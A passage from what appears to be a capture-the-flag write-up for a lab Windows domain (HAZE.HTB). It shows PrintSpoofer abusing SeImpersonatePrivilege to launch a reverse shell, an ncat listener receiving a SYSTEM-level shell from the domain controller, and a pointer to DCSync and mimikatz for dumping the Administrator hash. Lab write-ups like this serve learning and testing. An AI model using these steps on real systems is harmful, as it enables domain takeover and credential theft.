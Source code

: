 `PrintSpoofer` was executed to abuse `SeImpersonatePrivilege` and then ran `revshell.exe` as the elevated user.
```
PS C:\Users\alexander.green\AppData\Local\Temp> .\PrintSpoofer.exe -c "revshell.exe"
.\PrintSpoofer.exe -c "revshell.exe"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[!] CreateProcessAsUser() failed because of a missing privilege, retrying with CreateProcessWithTokenW().
[+] CreateProcessWithTokenW() OK
```

The `ncat` listener immediately caught the reverse shell from the `DC01$` computer account.
```
fcoomans@kali:~/htb/cat$ rlwrap ncat -lvnp 4445
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:4445
Ncat: Listening on 0.0.0.0:4445
Ncat: Connection from 10.10.11.61:51758.
Microsoft Windows [Version 10.0.20348.3328]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
haze\dc01$

C:\Windows\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.10.11.61
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : 10.10.10.2
```

BloodHound shows that this account can `DCSync` the `HAZE.HTB` domain.  
The `Windows Abuse` section shows that `mimikatz` can be used to dump the Administrator NTLM hash.
